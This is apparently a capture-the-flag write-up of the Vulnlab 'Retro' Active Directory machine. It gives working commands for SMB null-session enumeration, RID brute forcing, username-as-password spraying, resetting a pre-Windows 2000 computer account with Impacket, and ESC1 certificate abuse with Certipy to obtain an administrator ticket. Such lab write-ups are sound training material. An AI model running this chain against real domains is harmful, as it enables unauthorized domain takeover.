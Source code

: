 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Retro/logo.png
date: 2024-06-22 09:45:47 +07:00
modified: 2024-06-22 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: r0BIT
  link: https://www.linkedin.com/in/robin-unglaub/
tags: ["Nmap", "port scanning", "SMB enumeration", "null session", "RID brute forcing", "password guessing", "simple passwords", "Windows shares", "Pre-Windows 2000 Computers", "credential change", "Impacket", "ESC1 attack", "Active Directory Certificate Services", "Certipy", "Kerberos", "TGT request"]
title: Retro - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Retro is an **easy** difficulty machine where I had to enumerate open ports and services, leverage LDAP and SMB services to gain initial access, utilize credential brute forcing to discover simple passwords, and employ Impacket and Certipy to change credentials and exploit an ESC1 vulnerability for privilege escalation. The final step involved obtaining a TGT for the administrator to capture the root flag.


# Enumeration
The Nmap scan shows the following ports.

```Bash
PORT      STATE SERVICE
53/tcp    open  domain 
88/tcp    open  kerberos-sec 
135/tcp   open  msrpc
139/tcp   open  netbios-ssn  
389/tcp   open  ldap
445/tcp   open  microsoft-ds 
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
9389/tcp  open  adws
```

Guest login is enabled in the machine and I can see the shares using a username and null password.
`netexec smb ip -u 'sz' -p '' --shares`

![](https://photos.squarezero.dev/file/abir-images/Retro/0.png)

I also used rid brute force to get users into the system.
`netexec smb ip -u 'sz' -p '' --rid-brute`

![](https://photos.squarezero.dev/file/abir-images/Retro/1.png)

# Password Guessing

In the Trainees shares there is a text file where it talks about making an simple password for trainees.

`smbclient "//10.10.81.244/Trainees" -U "sz" --password=''`

```
Dear Trainees,     
I know that some of you seemed to struggle with remembering strong and unique passwords. 
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.                                                                                                                                                      
                                                    
Regards                                                                                                                                                                                                                                                                                            
The Admins
```

Using the usernames earlier I can tried bruteforce with usernames as password and got **trainees:trainees** valid

`netexec smb 10.10.81.244 -u user.txt -p user.txt -no-bruteforce`

![](https://photos.squarezero.dev/file/abir-images/Retro/2.png)

# Pre-Windows 2000 Computers

I explored Notes share with trainee credentials and found another notes where it talked about **Pre Created Computer Account**
`smbclient "//10.10.81.244/Notes" -U "trainee" --password='trainee'`

![](https://photos.squarezero.dev/file/abir-images/Retro/3.png)

```
Thomas,
       
after convincing the finance department to get rid of their ancienct banking software 
it is finally time to clean up the mess they made. We should start with the pre created computer account. That one is older than me.
       
Best   
James
```

After researching for a little bit I found this 2 article where it talked about how I can change the credentials of **Pre-Windows 2000 Computers**.

[The Hacker Recipes](https://www.thehacker.recipes/ad/movement/domain-settings/pre-windows-2000-computers)
[Trustedsec](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts)

![](https://photos.squarezero.dev/file/abir-images/Retro/4.png)

As this is a financial department I used previously found user **banking** and got ***NT_STATUS_RESOURCE_NAME_NOT_FOUND*** which confirms its vulnerable.

`smbclient -W retro.vl -U "banking" --password='banking' -L retro.vl`

![](https://photos.squarezero.dev/file/abir-images/Retro/5.png)

I also verified it with Netexec.

![](https://photos.squarezero.dev/file/abir-images/Retro/6.png)

Next, I used Impacket to change the credentials and also create alternative credentials.

`impacket-changepasswd retro.vl/banking$:banking@10.10.105.52 -newpass Password123 -altuser trainee -altpass trainee`

![](https://photos.squarezero.dev/file/abir-images/Retro/7.png)


# ESC1

Using the new credential I enumerated ADCS and the machine was vulnerable to ESC1 attack.

`certipy find -u 'banking$' -p 'Password123' -dc-ip 10.10.105.52 -enabled -vulnerable -stdout`


```bash
Certificate Templates                   
  0                                     
    Template Name                       : RetroClients
    Display Name                        : Retro Clients
    Certificate Authorities             : retro-DC-CA 
    Enabled                             : True        
    Client Authentication               : True        
    Enrollment Agent                    : False       
    Any Purpose                         : False       
    Enrollee Supplies Subject           : True        
    Certificate Name Flag               : EnrolleeSuppliesSubject  
    Enrollment Flag                     : None        
    Private Key Flag                    : 16842752    
    Extended Key Usage                  : Client Authentication 
    Requires Manager Approval           : False       
    Requires Key Archival               : False       
    Authorized Signatures Required      : 0           
    Validity Period                     : 1 year      
    Renewal Period                      : 6 weeks     
    Minimum RSA Key Length              : 4096        
    Permissions                         
      Enrollment Permissions            
        Enrollment Rights               : RETRO.VL\Domain Admins
                                          RETRO.VL\Domain Computers
                                          RETRO.VL\Enterprise Admins
      Object Control Permissions        
        Owner                           : RETRO.VL\Administrator
        Write Owner Principals          : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
        Write Dacl Principals           : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
        Write Property Principals       : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
    [!] Vulnerabilities                 
      ESC1
```

Using Certipy I requested .pfx key using the vulnerable template. Because of the ***Key Size*** error, I specified the key-size

`certipy req -u 'banking$'@retro.vl -p 'Password123' -dc-ip 10.10.105.52 -ca retro-DC-CA -template RetroClients -upn ADMINISTRATOR@retro.VL -key-size 4096`

![](https://photos.squarezero.dev/file/abir-images/Retro/8.png)

Next, Using the pfx key I requested TGT of the administrator.

`certipy auth -pfx administrator.pfx -username Administrator -domain retro.vl -dc-ip 10.10.105.52`

![](https://photos.squarezero.dev/file/abir-images/Retro/9.png)

Using the TGT I can now login to the machine and get the flag.
`wmiexec.py administrator@10.10.105.52 -hashes <.....redacted......>`

![](https://photos.squarezero.dev/file/abir-images/Retro/10.png)



